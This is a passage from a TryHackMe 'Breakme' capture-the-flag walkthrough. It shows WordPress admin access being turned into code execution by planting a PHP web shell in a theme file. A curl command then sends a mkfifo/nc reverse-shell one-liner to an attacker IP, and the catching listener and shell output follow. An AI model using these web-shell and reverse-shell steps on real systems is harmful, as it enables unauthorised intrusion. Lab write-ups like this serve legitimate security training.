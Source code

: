 To turn this admin access into `RCE`, we can simply edit one of the `PHP` files in the theme to include a simple web shell using the `Tools -> Theme File Editor`.

![Web 80 Wordpress Theme Edit](/images/tryhackme_breakme/web_80_wordpress_theme_edit.webp){: width="1200" height="600" }

After updating the file, we can confirm that our web shell works.

```console
$ curl -s -X GET 'http://10.10.225.113/wordpress/wp-content/themes/twentytwentyfour/functions.php?cmd=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
{: .wrap }

Now, using the web shell, we can obtain a shell as `www-data`.

```console
$ curl -s --get 'http://10.10.225.113/wordpress/wp-content/themes/twentytwentyfour/functions.php' --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.11.72.22 443 >/tmp/f'
```
{: .wrap }

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.225.113] 59254
bash: cannot set terminal process group (622): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Breakme:/var/www/html/wordpress/wp-content/themes/twentytwentyfour$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as john
